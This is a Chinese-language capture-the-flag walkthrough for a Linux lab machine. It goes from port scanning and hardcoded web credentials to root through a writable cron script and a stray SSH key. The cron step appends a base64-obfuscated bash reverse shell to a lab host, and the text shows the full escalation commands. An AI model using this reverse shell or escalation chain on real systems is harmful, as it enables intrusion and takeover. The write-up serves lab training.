


## Machine Info

| OS | Linux |
| --- | --- |
| Difficulty | Medium |

## Nmap

```
[root@kali] /home/kali/ciberguard  
❯ nmap 172.17.0.2 -sV -A -p- 

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 01:f6:3a:98:23:dc:8b:00:f0:5c:d5:50:07:f9:ec:e7 (ECDSA)
|_  256 b0:4e:cb:2a:e0:ac:cf:4c:14:7b:23:57:00:6d:12:1d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: CyberGuard - Seguridad Digital
```

## Feroxbuster

```
[root@kali] /home/kali/ciberguard  
❯ feroxbuster -u 'http://172.17.0.2/' -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt   
                                                                                                                                                
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.11.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://172.17.0.2/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.11.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, txt]
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      272c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      309c http://172.17.0.2/images => http://172.17.0.2/images/
200      GET       77l      154w     2111c http://172.17.0.2/archiv/script.js
200      GET      311l      560w     5015c http://172.17.0.2/archiv/styles.css
200      GET      231l     1204w   142716c http://172.17.0.2/images/Imagen(1).jpg
200      GET       59l      323w    28431c http://172.17.0.2/images/Image.jpg
200      GET      103l      363w     5100c http://172.17.0.2/
200      GET      279l     1484w   159900c http://172.17.0.2/images/Imagen%282%29.jpg
200      GET       12l      114w     7473c http://172.17.0.2/images/Iconn.png
200      GET      190l     1007w    91180c http://172.17.0.2/images/Imagen%285%29.png.jpg
200      GET      195l     1148w   120954c http://172.17.0.2/images/Imagen%283%29.jpg
200      GET      243l     1220w   121023c http://172.17.0.2/images/Imagen%284%29.jpg
200      GET      231l     1204w   142716c http://172.17.0.2/images/Imagen%281%29.jpg
301      GET        9l       28w      309c http://172.17.0.2/archiv => http://172.17.0.2/archiv/
403      GET        9l       28w      275c http://172.17.0.2/server-status
[####################] - 29s   661689/661689  0s      found:14      errors:1341   
[####################] - 28s   661638/661638  23558/s http://172.17.0.2/ 
[####################] - 0s    661638/661638  3576422/s http://172.17.0.2/images/ => Directory listing (add --scan-dir-listings to scan)
[####################] - 0s    661638/661638  330819000/s http://172.17.0.2/archiv/ => Directory listing (add --scan-dir-listings to scan) 
```

## Own chloe

查看到目录下有一个**/archiv/script.js**

```
const usuariosPermitidos = {
    'admin': 'CyberSecure123',
    'cliente': 'Password123',
    'chloe' : 'chloe123'
};
```

其中**chloe**可以用于`ssh`登录



## Own veronica

可以直接进入到家目录，在`.bash_history`中得到密码

```
chloe@6e97f12b7ffe:/home/veronica$ ls -al
total 56
drwxr-xrwx 1 veronica veronica 4096 Apr 18 16:35 .
drwxr-xr-x 1 root     root     4096 Apr 16 23:03 ..
-rw-r--r-- 1 veronica veronica   25 May 13 09:25 .bash_history
-rw-r--r-- 1 veronica veronica  220 Apr 16 23:00 .bash_logout
-rw-r--r-- 1 veronica veronica 3771 Apr 16 23:00 .bashrc
drwx------ 2 veronica veronica 4096 Apr 18 10:39 .cache
drwxrwxr-x 3 veronica veronica 4096 Apr 18 11:13 .local
-rw-r--r-- 1 veronica veronica  807 Apr 16 23:00 .profile
-rw------- 1 veronica veronica    7 Apr 18 16:35 .python_history
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Desktop
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Documents
drwxrwxr-x 2 veronica veronica 4096 Apr 18 10:44 Images
chloe@6e97f12b7ffe:/home/veronica$ cat .bash_history 
dmVyb25pY2ExMjMK
```

这个**dmVyb25pY2ExMjMK**就是密码，不用解密

## Own pablo

查看一下定时任务

```
chloe@6e97f12b7ffe:/home/veronica/.local$ cat /etc/crontab 
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
# You can also override PATH, but by default, newer versions inherit it from the environment
#PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.daily; }
47 6    * * 7   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.weekly; }
52 6    1 * *   root    test -x /usr/sbin/anacron || { cd / && run-parts --report /etc/cron.monthly; }
* * * * * pedro /home/veronica/.local/script-h.sh > /tmp/hora/hora.log 2>&1
#
```

当前用户可以直接修改这个脚本

```
veronica@6e97f12b7ffe:~/.local$ echo 'printf KGJhc2ggPiYgL2Rldi90Y3AvMTcyLjE3LjAuMS80NDQ0IDA+JjEpICY=|base64 -d|bash' >> script-h.sh 
```



## Root

查看`sudo -l`

```
pablo@6e97f12b7ffe:~$ sudo -l
Matching Defaults entries for pablo on 6e97f12b7ffe:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User pablo may run the following commands on 6e97f12b7ffe:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/nllns/clean_symlink.py *.jpg
```

查看一下脚本的内容

```
pablo@6e97f12b7ffe:~$ cat  /opt/nllns/clean_symlink.py 
#!/usr/bin/env python3

import os
import sys
import shutil

QUAR_DIR = "/var/quarantined"

if len(sys.argv) != 2:
    print("¡Se requiere un argumento: el enlace simbólico a un archivo .jpg!")
    sys.exit(1)

LINK = sys.argv[1]

if not LINK.endswith('.jpg'):
    print("¡El primer argumento debe ser un archivo .jpg!")
    sys.exit(2)

if os.path.islink(LINK):
    LINK_NAME = os.path.basename(LINK)
    LINK_TARGET = os.readlink(LINK)

    if 'etc' in LINK_TARGET or 'root' in LINK_TARGET:
        print(f"¡Intentando leer archivos críticos, eliminando enlace [{LINK}]!")
        os.unlink(LINK)
    else:
        print(f"Enlace encontrado [{LINK}], moviéndolo a cuarentena.")
        shutil.move(LINK, os.path.join(QUAR_DIR, LINK_NAME))
        if os.path.exists(os.path.join(QUAR_DIR, LINK_NAME)):
            print("Contenido:")
            with open(os.path.join(QUAR_DIR, LINK_NAME), 'r') as f:
                print(f.read())
else:
    print(f"El enlace [{LINK}] no es un enlace simbólico.")
```

大概就是如果你能控制传入的 `.jpg` 符号链接指向你想读的文件（**不在 `/etc` 或 `/root` 里**），可以利用它来**间接读取文件内容**。

例如👇

```
pablo@6e97f12b7ffe:/tmp$ echo 1231231 > aaaa
pablo@6e97f12b7ffe:/tmp$ ln -s /tmp/aaaa fake.jpg
pablo@6e97f12b7ffe:/tmp$ sudo /usr/bin/python3 /opt/nllns/clean_symlink.py /tmp/fake.jpg 
Enlace encontrado [/tmp/fake.jpg], moviéndolo a cuarentena.
Contenido:
1231231
```

但是呢也只能读取到非重要文件，

将目光放到`/tmp`目录下，有一个`id_rsa`目录，虽然拥有者是`pablo`

```
pablo@6e97f12b7ffe:/tmp$ ls -al
total 28
drwxrwxrwt 1 root     root     4096 May 13 09:59 .
drwxr-xr-x 1 root     root     4096 May 13 09:07 ..
drwxrwxrwx 1 root     root     4096 Apr 17 17:14 hora
-rw------- 1 pablo    pablo    3381 May  2 16:58 id_rsa
```

但是刚好可以用它来登录到`root`

```
pablo@6e97f12b7ffe:/tmp$ ssh -i id_rsa root@127.0.0.1
Welcome to Ubuntu 24.04.2 LTS (GNU/Linux 6.12.13-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue May 13 09:52:11 2025 from 127.0.0.1
root@6e97f12b7ffe:~# id
uid=0(root) gid=0(root) groups=0(root)
root@6e97f12b7ffe:~# 
```

## Summary

总体来说没什么难度，最后的部分让我想起了这个机器：[HTB-LinkVortex - HYH](https://www.hyhforever.top/htb-linkvortex/)

他最后也有一个软链接提权， 可以通过二级链接绕过，在本机器上就无法完成。
